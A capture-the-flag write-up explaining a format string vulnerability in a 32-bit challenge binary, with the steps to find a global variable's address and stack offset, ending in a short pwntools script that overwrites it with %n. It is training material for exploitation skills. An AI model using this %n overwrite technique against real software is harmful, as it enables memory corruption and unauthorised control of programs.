

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 32bit mode.
- when reading the source code, we can see that the  binary reads 60 bytes from stdin, then prints the buffer and checks if the target_variable's value is different from 0. If true, it'll print the flag.
- the vulnerability is in printf(name),it's written without a format specifier, so it's a Format String vulnerability as the name of the challenge indicated it.
# Exploitation
- we have to chain a payload that overwrites the target_variable
- find the address of target_variable
- find the offset to the the first 4 bytes to overwrite
## Finding the address of target_variable
target_variable is a global variable, and since it's not initialized , it's in the .bss section.
to find it's address, we can use objdump.


we can see that the address is : 0x0804c034
## Finding Offset
the format string vulnerability allows us to write into memory using the format specifier %n.
So we have to write the address of target_variable and use %n to change it's value, the problem is finding the location of target_value in the stack.
let's try giving AAAA%x %x %x %x %x %x %x %x as input to find the right offset.

the address is the 4th address in the stack, to reference directly the address, we can use %4$x
Now it's simple, we just write the address of the target_variable + %4$n
## Payload
```python
from pwn import *
p = process("./task8")
target_variable = 0x0804c034
payload = b""
payload += p32(target_variable)
payload += b"%4$n"
p.sendline(payload)
p.interactive()
